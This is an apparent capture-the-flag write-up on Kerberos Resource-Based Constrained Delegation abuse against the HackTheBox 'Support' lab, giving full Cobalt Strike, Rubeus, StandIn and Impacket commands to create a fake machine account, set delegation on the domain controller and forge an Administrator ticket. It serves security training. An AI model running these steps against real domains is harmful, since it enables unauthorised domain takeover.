## Entry

### ➜ Introduction: What is KCD and RBCD?

* Kerberos Constrained Delegation (KCD) allows a service to act on a user's behalf, but only to specific services.

* Resource-Based Constrained Delegation (RBCD), added in Windows Server 2012 and newer, shifts control from domain admins to resource owners. It also allows delegation across domains. This improves security by letting back-end service owners decide who can impersonate users to them, not just the front-end service admins.

| Feature                      | KCD                                     | RBCD                                                 |
| ---------------------------- | --------------------------------------- | ---------------------------------------------------- |
| Who sets delegation?         | Domain Admin (on the front-end account) | Resource Owner (on the back-end account)             |
| Works across domains?        | ❌ No                                    | ✅ Yes                                                |
| Configuration complexity     | Higher (requires Domain Admin access)   | Lower (delegation is self-service)                   |
| Delegation control direction | "Push" model (who can delegate)         | "Pull" model (who is allowed to be delegated **to**) |
| Protocol used                | S4U2Proxy                               | S4U2Proxy + \[MS-SFU] extensions                     |

### ➜ Requirements

| **Item**                   | **Value / Description**          |
| -------------------------- | -------------------------------- |
| **Target Computer**        | `DC`                           |
| **Admin on Target**        | `Administrator@suport.htb`         |
| **Fake Computer Name**     | `fiona$`                         |
| **Fake Computer SID**      | 🔄 To be retrieved during attack |
| **Fake Computer Password** | `Password123!`                         |

## Windows Abuse with Cobalt Strike

First of all lets import PowerView module
```sh
powershell-import /home/elliot/tools/PowerView.ps1
```
This attack involves creating a new computer object in the domain, we first need to verify whether regular users are permitted to do so. By default, domain members can typically join up to 10 computers to the domain. To confirm this setting, we can query the root domain object and check the ms-DS-MachineAccountQuota attribute.

Command to execute:
```sh
powerpick Get-DomainObject -Identity "dc=support,dc=htb" -Domain support.htb
```


The quote is set to the default of 10, which is good.

I’ll also need to make sure there’s a 2012+ DC in the environment:

Command to execute:
```sh
powerpick Get-DomainController
```


2022 Standard is great.

Finally, I’ll want to check that the msds-allowedtoactonbehalfofotheridentity is empty:

Command to execute:
```sh
powerpick Get-NetComputer DC | Select-Object -Property name, msds-allowedtoactonbehalfofotheridentity
```

It is.

### ➜ Create Fake Computer

Of course im gonna use [StandIn](https://github.com/Flangvik/SharpCollection/blob/master/NetFramework_4.7_Any/StandIn.exe)

Command to execute:
```sh
execute-assembly /home/elliot/tools/SharpCollection/NetFramework_4.7_Any/StandIn.exe --computer EvilComputer --make --Domain support.htb
```


It's created machine EvilComputer with password `506mQJ9QBwjn8nR`

Get its SID

Command to execute:
```sh
powerpick Get-DomainComputer -Identity EvilComputer -Properties objectsid
```



Using Active Directory Module we can set msDS-AllowedToActOnBehalfOfOtherIdentity

Commands to execute:
```sh
powerpick Set-ADComputer dc -PrincipalsAllowedToDelegateToAccount EvilComputer$
powerpick Get-ADComputer dc -Properties PrincipalsAllowedToDelegateToAccount
```


Now to get a S4U hash to impersonate as administrator with Rubeus

Command to execute:
```sh
execute-assembly /home/elliot/tools/Rubeus.exe hash /password:506mQJ9QBwjn8nR /user:EvilComputer$ /domain:DC.support.htb
```


Now lets craete ticket for Administrator.

Command to execute:
```sh
execute-assembly /home/elliot/tools/Rubeus.exe s4u /user:EvilComputer$ /password:506mQJ9QBwjn8nR /domain:support.htb /impersonateuser:administrator /rc4:F77FBC0468F740418C4D2C05339A8FBF /msdsspn:host/dc.support.htb /nowrap
```


now lets save it as kirbi file at our host

Command to execute:
```sh
echo -n "do[SNIP]" | base64 -d > administrator.kirbi
```


kirbi -> ccache and save it

```sh
➜  Kerberos ticketConverter.py administrator.kirbi administrator.ccache
Impacket v0.13.0.dev0+20250404.133223.00ced47f - Copyright Fortra, LLC and its affiliated companies 

[*] converting kirbi to ccache...
[+] done
➜  Kerberos export KRB5CCNAME=administrator.ccache 
```

and now we can access as administrator



## Linux Abuse

Since we have Linux abuse now im gonna start with Bloodhound.

The Linux Abuse section suggests to leverage RBCD, so let's do that by slightly modifying the commands shown by BloodHound. The prerequisites for this exploitation are:


### ➜ Requirements for the Attack:

| Requirement                                                | Status                            |
| ---------------------------------------------------------- | --------------------------------- |
| **WRITE permissions on target SPN account**                | ✅ We have `GenericAll` rights     |
| **Machine account creation allowed (MachineAccountQuota)** | ✅ Default is 10 unless restricted |

Attack Process Overview (RBCD Abuse):

* Create a new machine account (SPN) -> Example name: FAKE01$ (This will act as the malicious `front-end` system)

* Configure Resource-Based Constrained Delegation (RBCD) 

* Set the msDS-AllowedToActOnBehalfOfOtherIdentity attribute on the target system (WS01) -> This allows our fake machine account to impersonate any user to WS01.

* Impersonate Administrator via S4U2Self + S4U2Proxy:

* Use the fake machine account to request a Service Ticket (ST) for itself as the Administrator (S4U2Self).

* Use that ST to request another ST to the target service (e.g., cifs/WS01.support.htb) as Administrator (S4U2Proxy).

Lets check if we have `maq` here as we did windows we can do only with nxc.

Command to execute

```sh
nxc ldap DC.support.htb -u <username> -p '<password>' -M maq
```


Now abuse.

Commands to execute

```sh
addcomputer.py -computer-name 'FAKE01$' -computer-pass 'NewPassword123!' -dc-host 'DC.support.htb' 'support.htb/<username>:<password>'
rbcd.py -delegate-from 'FAKE01$' -delegate-to 'dc$' -action 'write' 'support.htb/<username>:<password>' -dc-ip 10.10.XX.XX
getST.py -spn 'cifs/dc.support.htb' -impersonate 'administrator' 'support.htb/FAKE01$:NewPassword123!'
```


bomm!!!

U can practice [HackTheBox - Support](https://app.hackthebox.com/machines/Support)
